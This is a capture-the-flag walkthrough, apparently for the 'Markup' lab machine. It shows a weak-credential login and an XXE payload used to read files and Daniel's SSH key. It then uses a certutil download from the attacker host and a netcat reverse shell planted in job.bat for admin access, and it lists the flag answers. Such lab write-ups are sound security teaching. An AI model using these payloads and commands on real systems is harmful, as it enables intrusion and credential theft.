 # Markup - Very Easy

```shell
rustscan -a 10.129.95.192 --range 0-65535 --ulimit 5000 -- -sV

vim id_rsa
#insert Daniel's SSH key

chmod 600 id_rsa

ssh daniel@10.129.95.192 -i id_rsa

type Desktop\user.txt

cd C:\

dir

cd Log-Management

type job.bat

icacls job.bat
#view file permissions

#on attacker machine
#download netcat for windows
#start server
python3 -m http.server

#on victim machine
cd C:\Users\Daniel

powershell

certutil.exe -urlcache -f http://10.10.14.40:8000/nc64.exe nc64.exe
#download nc64.exe using certutil

exit
#exit powershell

echo C:\Users\daniel\nc64.exe -e cmd.exe 10.10.14.40 4445 > C:\
Log-Management\job.bat
#edit job.bat

#in attacker machine, setup listener
nc -nvlp 4445

#we get reverse shell
whoami
#Administrator

type C:\Users\Administrator\Desktop\root.txt
```

```markdown
Open ports & services:

  * 22 - ssh - OpenSSH (Windows)
  * 80 - http - Apache httpd 2.4.41
  * 443 - ssl/http - Apache httpd 2.4.41

Checking the webpage on port 80, we can attempt to login using weak credentials.

On using admin:password, we are able to login.

While checking the sections, we can see that the 'Order' section accepts user input.

Going through the source code, we can see that XML version 1.0 is being used.
Furthermore, we can see that the name 'Daniel' has been mentioned; this can be a possible username.

Given the clue in questions, we have to try for XML-XXE attacks; we can research about it using HackTricks article on the XML-XXE attacks.

We can test for XML-XXE payloads in the 'Order' tab using Burp Suite's Repeater.

As the target system is using Windows, instead of /etc/passwd, we can check for C:/Windows/win.ini

Following the HackTricks article, the payload added below acts as a proof of concept.
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY example SYSTEM "file:///C:/Windows/win.ini"> ]>
<order>
<quantity>
2
</quantity>
<item>
&example;
</item>
<address>
2
</address>
</order>
```

```markdown
After inserting the payload into the intercepted request in Repeater, we get the contents of win.ini in our response.

As we have an username now (Daniel), we can try to get access to the machine using Daniel's SSH keys.

Following the same logic as Linux machines, we can expect the SSH keys to be in the user's home directory, in the .ssh folder.

Checking the output of file 'C:/Users/Daniel/.ssh/id_rsa' gives us the SSH keys for Daniel.

After logging in as Daniel, we can get user flag from Desktop.

We can get the Log-Management folder at root-folder, C:\

We can check the job.bat file inside; we can try to understand what it is doing by outputting its contents.

Since job.bat can be run as Administrator, we can try to view its permissions to check for any privesc possibility.

Using icacls we can view that Users group has full access to the .bat file.

This means we can edit this file; we can try to get reverse shell using netcat.

On attacker machine, we need to download netcat for Windows, and then transfer it to the victim machine.

After downloading it to the victim machine, we can now edit job.bat

After editing job.bat, we can setup listener on our machine and wait for it to get executed.

We get reverse shell in a while and root flag can be found in Admin's Desktop.
```

1. What version of Apache is running on the target's port 80? - 2.4.41

2. What username:password combination logs in successfully? - admin:password

3. What is the word at the top of the page that accepts user input? - Order

4. What XML version is used on the target? - 1.0

5. What does the XXE / XEE attack acronym stand for? - XML External Entity

6. What username can we find on the webpage's HTML code? - Daniel

7. What is the file located in the Log-Management folder on the target? - job.bat

8. What executable is mentioned in the file? - wevtutil.exe

9. Submit user flag - 032d2fc8952a8c24e39c8f0ee9918ef7

10. Submit root flag - f574a3e7650cebd8c39784299cb570f8
